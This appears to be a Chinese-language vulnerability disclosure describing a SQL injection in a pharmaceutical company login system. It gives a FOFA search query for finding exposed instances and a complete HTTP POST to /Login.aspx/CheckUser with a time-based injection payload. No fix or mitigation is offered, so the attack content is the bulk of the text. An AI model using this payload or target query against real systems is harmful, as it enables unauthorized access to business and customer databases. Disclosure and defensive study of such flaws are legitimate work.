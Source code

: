 # 医药公司登录系统Login存在SQL注入漏洞

# 一、漏洞简介
医药公司登录系统是一个全面且高效的管理工具，涵盖了销售管理、客户档案管理、药品字典管理等多个核心模块。该系统支持前台零售、批发销售、销售审核等多种销售方式，并具备完善的客户档案管理功能，包括客户的基本信息、经营权限等。此外，系统还提供国药标准药品字典库云下载功能，便于用户快速获取药品信息。整体而言，医药公司登录系统通过自动化的管理和数据分析，帮助医药企业优化业务流程，提升市场竞争力。

# 二、影响版本
+ 医药公司登录系统

# 三、资产测绘
+ fofa`body="ResourceScripts/zh-cn-Login.aspx.js"`

![1718300393150-bc4c042c-e623-4c35-bd2f-b019efc0686a.png](./img/Zh-OJkFeum4RXVH1/1718300393150-bc4c042c-e623-4c35-bd2f-b019efc0686a-439620.png)

# 四、漏洞复现
```http
POST /Login.aspx/CheckUser HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
X-Requested-With: XMLHttpRequest
Content-Type: application/json; charset=utf-8
Priority: u=1

{"value":"' waitfor delay '0:0:5'--+"}
```

![1718300458322-719caf40-b4e1-4836-a62c-a0aca66ca420.png](./img/Zh-OJkFeum4RXVH1/1718300458322-719caf40-b4e1-4836-a62c-a0aca66ca420-413034.png)



> 更新: 2024-06-23 23:40:49  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/nttl3oy8wgueg1gq>
